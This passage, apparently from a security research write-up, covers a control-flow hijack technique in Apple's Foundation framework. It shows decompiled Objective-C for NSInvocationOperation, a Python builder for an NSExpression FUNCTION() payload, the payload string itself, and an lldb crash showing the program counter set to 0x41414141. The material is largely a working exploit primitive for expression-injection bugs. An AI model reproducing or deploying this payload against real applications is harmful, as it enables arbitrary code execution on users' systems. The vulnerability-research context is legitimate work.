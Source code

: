 ```objc
NSInvocationOperation *__cdecl -[NSInvocationOperation initWithTarget:selector:object:](NSInvocationOperation *self, SEL a2, id a3, SEL a4, id a5)
{
  v19 = a5;
  v9 = objc_msgSend_0(a3, sel_methodSignatureForSelector_, a4);
  v10 = v9;
  v11 = (unsigned __int64)objc_msgSend_0(v9, sel_numberOfArguments);
  v12 = v11;
  v13 = +[NSInvocation invocationWithMethodSignature:](
          &OBJC_CLASS___NSInvocation,
          sel_invocationWithMethodSignature_,
          v10);
  -[NSInvocation setTarget:](v13, sel_setTarget_, a3);
  -[NSInvocation setSelector:](v13, sel_setSelector_, a4);
  if ( v12 >= 3 )
    -[NSInvocation setArgument:atIndex:](v13, sel_setArgument_atIndex_, &v19, 2LL);
  return (NSInvocationOperation *)-[NSInvocationOperation initWithInvocation:](self, sel_initWithInvocation_, v13);
}
```

So the payload for PC-control looks like this:

```python
def selector(name):
    expr = Call(Clazz('NSFunctionExpression'), 'alloc')
    expr = Call(expr, 'initWithTarget:selectorName:arguments:', '', name, [])
    return Call(expr, 'selector')

def pc_control(pc=0x41414141):
    NSString = Clazz('NSString')
    op = Call(Clazz('NSInvocationOperation'), 'alloc')
    op = Call(op, 'initWithTarget:selector:object:',
    NSString, selector('alloc'), [])
    invocation = Call(op, 'invocation')
    imp = Call(pc, 'intValue')
    return Call(invocation, 'invokeUsingIMP:', imp) 
```

```js
FUNCTION(FUNCTION(FUNCTION(FUNCTION(CAST('NSInvocationOperation','Class'),'alloc'),'initWithTarget:selector:object:',CAST('NSString','Class'),FUNCTION(FUNCTION(FUNCTION(CAST('NSFunctionExpression','Class'),'alloc'),'initWithTarget:selectorName:arguments:','','alloc',{}),'selector'),{}),'invocation'),'invokeUsingIMP:',FUNCTION(0x41414141,'intValue'))
```

```
(lldb) bt
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x41414141)
    frame #0: 0x0000000041414141
    frame #1: 0x00007fff2042556c CoreFoundation`__invoking___ + 140
    frame #2: 0x00007fff204cff1e CoreFoundation`-[NSInvocation invokeUsingIMP:] + 225
    frame #3: 0x00007fff211d676b Foundation`-[NSFunctionExpression expressionValueWithObject:context:] + 721
```
